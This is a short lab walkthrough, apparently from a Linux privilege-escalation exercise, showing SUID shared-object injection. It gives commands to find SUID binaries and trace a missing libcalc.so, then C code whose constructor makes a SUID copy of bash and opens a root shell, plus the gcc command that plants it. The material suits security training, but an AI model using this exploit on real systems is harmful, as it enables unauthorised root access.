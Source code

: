 # Dectection


```bash

find / -type f -perm -04000 -ls 2>/dev/null

```


![image](https://user-images.githubusercontent.com/96658935/147664563-030ce722-bbb3-4fbf-9739-db7c7f23a632.png)

From the output, make note of all the SUID binaries.


```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

From the output, notice that a .so file is missing from a writable directory.


![image](https://user-images.githubusercontent.com/96658935/147664797-46d4bec4-f161-46c9-ade2-2fe64cabd55c.png)



![image](https://user-images.githubusercontent.com/96658935/147665288-31d348f7-3cf9-456b-8896-cc950ca4118d.png)


I see that I have permissions to wirte to /user/home




![image](https://user-images.githubusercontent.com/96658935/147665637-a6526c01-2291-4248-8df1-84a49d0b40b1.png)

Wehn the /sr/local/bin/suid-so command is ran its looking for the /home/user/.config/libcalc.so file but it cannot find it. SO because I have writable access to /home/user I'll create that file and put something for my benefit in it.


# Exploitation

![image](https://user-images.githubusercontent.com/96658935/147665944-482df0f8-0abf-47a8-af49-d88c3283ae38.png)




```bash


#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

```


![image](https://user-images.githubusercontent.com/96658935/147666042-d9b297b4-f89d-4e1b-ae2b-73e94257e7b2.png)


(Save the file as x.c) I placed the code from above in the libcalc.c file

now compile the file

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

now execute the command and become root

![image](https://user-images.githubusercontent.com/96658935/147666327-deae6c02-a2e1-4342-94cb-99efce64a7e8.png)


